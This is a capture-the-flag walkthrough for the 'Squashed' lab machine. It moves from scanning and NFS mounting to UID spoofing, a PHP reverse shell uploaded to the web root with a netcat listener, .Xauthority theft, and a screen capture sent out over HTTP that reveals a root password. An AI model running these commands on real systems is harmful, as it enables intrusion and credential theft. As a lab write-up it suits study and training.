







# Squashed

Tools : `convert` `python3` `xwd` `w` `export` `cat` `echo` `usermod` `groupmod` `useradd` `nc` `curl` `mount` `showmount` Subjects : `rpcinfo` `nfs` `KeePass`

## Port Discovery

```bash
kali@kali| echo '10.10.11.191 squashed.htb' | sudo tee -a /etc/hosts
kali@kali| ports=$(nmap -p- --min-rate=1000 -T4 squashed.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
kali@kali| nmap -p $port -sV -sC squashed.htb
```

| Port  | Protocol     | Version                         |
| ----- | ------------ | ------------------------------- |
| 22    | ssh          | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 |
| 80    | http         | Apache httpd 2.4.41 ((Ubuntu))  |
| 111   | rpcbind      | 2-4 (RPC #100000)               |
| 2049  | nfs\_acl     | 3 (RPC #100227)                 |
| 33629 | mountd       | 1-3 (RPC #100005)               |
| 37459 | mountd       | 1-3 (RPC #100005)               |
| 46677 | nlockmanager | 1-4 (RPC #100021)               |
| 52561 | mountd       | 1-3 (RPC #100005)               |

## Web Directory Discovery

```bash
kali@kali| ffuf -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://squashed.htb/FUZZ -fs 32532
```

Discovered urls :

| Url                               | Code |
| --------------------------------- | ---- |
| http://squashed.htb/css           | 301  |
| http://squashed.htb/js            | 301  |
| http://squashed.htb/images        | 301  |
| http://squashed.htb/server-status | 403  |

## NFS

```bash
kali@kali| showmount -e squashed.htb
```

The shared files : `/home/ross` `/var/www/html`

```bash
kali@kali| mkdir /tmp/mount1
sudo@kali| mount -t nfs squashed.htb:/var/www/html /tmp/mount1 -o nolock

kali@kali| mkdir /tmp/mount2
root@kali| mount -t nfs squashed.htb:/home/ross /tmp/mount2 -o nolock
```

The user with the UID 2017 has `rwx` permissions for `mount1`.

<figure><figcaption></figcaption></figure>

```bash
root@kali| useradd john
root@kali| usermod -u 2017 john
root@kali| su john
john@kali| cd /tmp/mount1
```

<figure><figcaption></figcaption></figure>

This is the web server repository. Upload a reverse shell on the target and don't forget to update the ip of the attacker in the `php-reverse-shell.php`.

```bash
john|kali| cp /usr/share/webshells/php/php-reverse-shell.php /tmp/mount1/shell.php
```

<figure><figcaption></figcaption></figure>

In one terminal, launch netcat.

```bash
kali@kali| nc -lnvp 1234
```

In a second terminal execute `curl`.

```bash
kali@kali| curl http://squashed.htb/shell.php
```

In the first terminal, the reverse shell appears.

```bash
alex@target| python3 -c "import pty;pty.spawn('/bin/bash')"
alex@target| cat /home/alex/user.txt
```

The user with the UID 1001 has `rwx` permissions for `mount2`.

<figure><figcaption></figcaption></figure>

```bash
root@kali| useradd jane
root@kali| usermod -u 1001 jane
```

<figure><figcaption></figcaption></figure>

```bash
jane@kali  | cat /mnt/2/.Xauthority | base64  # output is AQAADHN<...SNIP...>S0xAoNm/oZZ4/
alex@target| echo AQAADHN<...SNIP...>S0xAoNm/oZZ4/ | base64 -d > /tmp/.Xauthority
alex@target| export XAUTHORITY=/tmp/.Xauthority
alex@target| w
```

<figure><figcaption></figcaption></figure>

```bash
alex@target| xwd -root -screen -silent -display :0 > /tmp/screen.xwd
alex@target| python3 -m http.server
kali@kali  | wget http://squashed.htb:8000/screen.xwd
kali@kali  | convert screen.xwd screen.png
```

<figure><figcaption></figcaption></figure>

The credentials are `root:cah$mei7rai9A`.

```bash
alex@target| su root             # prompt password, enter "cah$mei7rai9A"
root@target| cat /root/root.txt
```
